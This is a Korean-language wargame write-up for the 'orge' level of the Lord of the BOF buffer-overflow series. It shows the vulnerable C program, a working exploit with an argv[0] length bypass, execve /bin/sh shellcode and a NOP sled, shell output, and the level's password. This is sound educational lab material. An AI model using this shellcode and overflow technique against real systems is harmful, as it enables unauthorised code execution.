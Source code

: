 # Summary

**이전 문제와 동일한 내용은 생략하고 추가된 내용만 다루었다.**

> 문제의 소스코드

```c
[darkelf@localhost darkelf]$ cat orge.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// here is changed!
	if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

<br>

이전 문제에서 추가된 부분은 파일명에 해당하는 `argv[0]` 길이가 77인지 체크한다.

이 경우 파일명을 77개로 맞춰주면 우회가 가능하다.

아래와 같이 간단히 작성된 파이썬 코드로 조건문을 모두 만족시켜 스택을 `overflow` 시킬 수 있다.

```Python
[darkelf@localhost darkelf]$ ./orge `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"`
argv[0] error

[darkelf@localhost darkelf]$ `python -c "print '.'+'/'*72+'orge'"` `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
```

<br>

<br>

# Analysis & Exploit

#### 아래는 이전 문제와 모두 동일한 내용이기 때문에 요약하여 내용을 정리하였다.

> `tmp`폴더를 생성해 문제의 소스코드를 복사하여 실행 권한을 획득한다.

```python
[darkelf@localhost darkelf]$ mkdir tmp; cp orge.c tmp;
[darkelf@localhost darkelf]$ cd tmp
```

<br>

> 문제의 소스코드에 `argv[2]`주소 값을 확인하는 코드를 아래와 같이 추가해준다.

```Python
[darkelf@localhost tmp]$ vi orge.c
printf("argv[2]: %#x\n",argv[2]); // argv[2] address
[darkelf@localhost tmp]$ gcc orge.c -o orge
```

<br>

> 파이썬으로 파일명에 해당하는 `argv[0]` 길이를 77개로 작성해 이전 문제와 동일한 exploit 코드를 작성한다.

```python
[darkelf@localhost tmp]$ `python -c "print '.'+'/'*72+'orge'"` `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"` `python -c "print '\x90'*1000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
argv[2]: 0xbffff7d2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault (core dumped)
```

<br>

> 확인된 `argv[2]`에 해당하는 주소 값으로 `ret` 값을 변경하여 exploit 코드를 실행하여 `shell`을 획득할 수 있다.

```Python
[darkelf@localhost tmp]$ cd ..
[darkelf@localhost darkelf]$ `python -c "print '.'+'/'*72+'orge'"` `python -c "print 'A'*44+'\xd2\xf7\xff\xbf'"` `python -c "print '\x90'*1000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
argv[2]: 0xbffff7d2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
bash$ id
uid=506(darkelf) gid=506(darkelf) euid=507(orge) egid=507(orge) groups=506(darkelf)
bash$ my-pass
euid = 507
timewalker
```

### Clear! password is….

timewalker